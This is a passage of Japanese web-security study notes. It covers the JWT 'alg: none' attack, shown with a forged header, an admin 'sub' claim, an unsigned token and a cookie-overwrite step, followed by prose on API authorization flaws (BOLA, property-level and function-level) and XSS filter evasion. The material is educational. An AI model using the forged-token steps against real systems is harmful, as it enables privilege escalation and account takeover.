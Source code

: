 RS256をnoneに書き換える

攻撃者はalgを"none"に変更し、さらにペイロード内の"sub"を1（管理者）に書き換えることで、不正なトークンを生成する。

```
{
  "typ": "JWT",
  "alg": "none",
  "kid": "qkA6IUTWTMKYtim4FIqN8QMclw87uNm20u96Okq8t_0"
}
```
```
{
  "sub": 1,
  "userid": "spa-test-0310",
  "email": "spa-test-0310@gmail.com",
  "icon": "dummy-icon.png",
  "is_super": 0,
  "iat": 1752888450,
  "exp": 1753752450
}
```
再度デコードする
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIiwia2lkIjoicWtBNklVVFdUTUtZdGltNEZJcU44UU1jbHc4N3VObTIwdTk2T2txOHRfMCJ9.eyJzdWIiOjEsInVzZXJpZCI6InNwYS10ZXN0LTAzMTAiLCJlbWFpbCI6InNwYS10ZXN0LTAzMTBAZ21haWwuY29tIiwiaWNvbiI6ImR1bW15LWljb24ucG5nIiwiaXNfc3VwZXIiOjAsImlhdCI6MTc1Mjg4ODQ1MCwiZXhwIjoxNzUzNzUyNDUwfQ.
```

開発者ツール>アプリケーション>Cookieを選択し、Cookieの値を上記で上書きする。

サーバー側の実装によっては、存在しないkidを指定された場合に署名検証をスキップしてしまう場合があり、結果としてalg=noneかつ署名なしのトークンがそのまま通ってしまうことがある。

- https://qiita.com/ockeghem/items/cc0b8ab74f46834d055b


## オブジェクトレベルの認可不備(BOLA)

OWASP API Security Top 10の中でも取り上げられているように、APIにおける認可不備は非常に重大な問題とされている。

パラメータやURL中のID値を別のユーザーのものに変更することで、他人の情報を取得できてしまう。

### オブジェクトプロパティレベルの認可不備

API側でリクエスト内の特定のプロパティに対して適切な認可チェックが行われていない場合、本来変更できないプロパティ（例：`userId`や`role`など）を意図的に書き換えることで、管理対象のオブジェクトを不正に操作することが可能になる。

## 機能レベルの認可不備(BLFA)
権限チェックが不十分な場合、一般ユーザーであっても管理者向けのAPI（例：ユーザー削除や設定変更など）を実行できてしまう。

### XSS
XSSは一般的に「蓄積型」「反射型」「DOM-Based型」の3つに分類されるが、DOM-Based型も蓄積型・反射型にまたがる特性を持つことがあるため、厳密には分類が重複するケースが存在する。

XSS攻撃では、改行コードや文字エンコーディングによってサニタイズ処理を回避される可能性があるため、出力処理の設計に注意が必要。
Cookieは盗めなくても、apiを任意に呼び出せるのがXSSの怖さ。
